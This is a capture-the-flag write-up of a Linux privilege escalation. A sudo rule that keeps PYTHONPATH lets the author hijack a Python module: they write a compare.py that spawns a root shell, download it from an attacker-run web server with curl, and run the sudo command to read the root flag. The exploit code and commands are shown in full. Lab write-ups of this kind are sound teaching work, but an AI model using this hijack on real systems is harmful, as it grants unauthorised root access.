 1) I see the list of sudo privilege:
```
wes@ubuntu-xenial:/$ sudo -l
sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
wes@ubuntu-xenial:/$ 
```

2) I see the file "test_module.py":
```
wes@ubuntu-xenial:/opt/development$ cat /opt/development/test_module.py
cat /opt/development/test_module.py
```
```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

3) I search the file "compare.py":
```
wes@ubuntu-xenial:/opt/development$ find / -type f 2>/dev/null | grep compare.py
<lopment$ find / -type f 2>/dev/null | grep compare.py                       
/usr/lib/python3.5/compare.py
/usr/lib/python2.7/dist-packages/lxml/doctestcompare.pyc
/usr/lib/python2.7/dist-packages/lxml/doctestcompare.py
wes@ubuntu-xenial:/opt/development$ 
```

4) `env_keep+=PYTHONPATH` maybe we can exploit this? We can! Consult [this](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) article as I did!  
5) So I moved to `/dev/shm/` as that has lmost guaranteed write access
6) I create in my local machine a file compare.py:
```
┌──(kali㉿kali)-[~]
└─$ nano compare.py         
   
┌──(kali㉿kali)-[~]
└─$ cat compare.py    
```
```python
class compare:

        def Str(self, x, y,):
                import os
                x = str(x)
                y = str(y)

                if x == y:
                        os.system('/bin/bash -p')
                        return True;
                else:
                        return False;

        def Int(self, x, y,):
                x = int(x)
                y = int(y)

                if x == y:
                        return True;
                else:
                        return True;

        def Float(self, x, y,):
                x = float(x)
                y = float(y)

                if x == y:
                        return True;
                else:
                        return False;
```

7) In my local machine in same directory I open a webserver with python:
```
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 8000          
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

8) In the target machine I download the file compare.py:
```
wes@ubuntu-xenial:/dev/shm$ curl http://10.8.21.1:8000/compare.py -O compare.py
curl http://10.8.21.1:8000/compare.py -O compare.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   376  100   376    0     0   3827      0 --:--:-- --:--:-- --:--:--  3836
curl: (6) Could not resolve host: compare.py
wes@ubuntu-xenial:/dev/shm$ ls -all
ls -all
total 4
drwxrwxrwt  2 root root   60 Mar 11 19:20 .
drwxr-xr-x 16 root root 3560 Mar 11 18:04 ..
-rw-r--r--  1 wes  wes   376 Mar 11 19:20 compare.py
wes@ubuntu-xenial:/dev/shm$ chmod a=+w+r+x compare.py
chmod a=+w+r+x compare.py
wes@ubuntu-xenial:/dev/shm$ 
```

9) I spawn the root shell:
```
wes@ubuntu-xenial:/dev/shm$ sudo PYTHONPATH=/dev/shm/ /usr/bin/python3 /opt/development/test_module.py
lopment/test_module.pyhm/ /usr/bin/python3 /opt/deve 
root@ubuntu-xenial:/dev/shm# cat /root/root.txt
cat /root/root.txt
JPC{665b7f2e59cf44763e5a7f070b081b0a}

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
root@ubuntu-xenial:/dev/shm# 
```
---
## Patch the machine vulnerabilities

1) I remove the file test_module.py:
```
root@ubuntu-xenial:/dev/shm# rm /opt/development/test_module.py
rm /opt/development/test_module.py
root@ubuntu-xenial:/dev/shm# 
```

2) I leave my signature:
```
root@ubuntu-xenial:/$ touch README.txt
root@ubuntu-xenial:/$ echo 'CyberSpider  has been here, Now I am root :)' > README.txt
root@ubuntu-xenial:/$ cat README.txt
CyberSpider  has been here, Now I am root :)
root@ubuntu-xenial:/$ chmod a=+r-x-w README.txt
root@ubuntu-xenial:/$ ls -all README.txt
-r--r--r-- 1 root root   45 Feb 14 21:46 README.txt
```
